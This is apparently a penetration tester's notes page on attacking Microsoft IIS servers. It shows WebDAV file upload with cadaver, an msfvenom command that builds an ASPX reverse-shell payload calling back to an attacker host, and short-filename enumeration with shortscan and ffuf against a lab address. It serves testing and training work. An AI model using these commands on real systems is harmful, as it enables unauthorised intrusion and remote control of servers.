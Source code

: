 # IIS

If HTTP methods such as PUT and MOVE are allowed, we can use cadaver to upload a file and rename it

{% code overflow="wrap" %}
```bash
cadaver $HOSTNAME
put $FILE
move $FILE
# We can use more HTTP methods but these are important for exploiting.

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.0 LPORT=80 -f aspx -o reverse.aspx
```
{% endcode %}

&#x20;[https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/iis-internet-information-services.html?highlight=iis#iis---internet-information-services](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/iis-internet-information-services.html?highlight=iis#iis---internet-information-services)

[https://github.com/reewardius/iis-pentest](https://github.com/reewardius/iis-pentest)

## Uploading web.config

[https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

## Microsoft IIS tilde character “\~” – Short File/Folder Name Disclosure

[https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/iis-internet-information-services.html?highlight=iis#microsoft-iis-tilde-character--vulnerabilityfeature--short-filefolder-name-disclosure](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/iis-internet-information-services.html?highlight=iis#microsoft-iis-tilde-character--vulnerabilityfeature--short-filefolder-name-disclosure)

Best tool -> [https://github.com/bitquark/shortscan\\](https://github.com/bitquark/shortscan/)

{% code overflow="wrap" fullWidth="true" %}
```bash
#Running the tool, I can find a part of the filepath:
└─$ shortscan http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db
...
Vulnerable: Yes!
════════════════════════════════════════════════════════════════════════════════
POO_CO~1.TXT         POO_CO?.TXT?
════════════════════════════════════════════════════════════════════════════════


poo_coXXX.txt

# The second word after the underscore can be fuzzed (we could even narrow the search by grepping only coXXX words):


└─$ ffuf -c -r -u http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_FUZZ -w /usr/share/custom-wordlists/Fuzzing/directory-list-lowercase-2.3-medium.txt -e .txt -t 200 -mc all
```
{% endcode %}
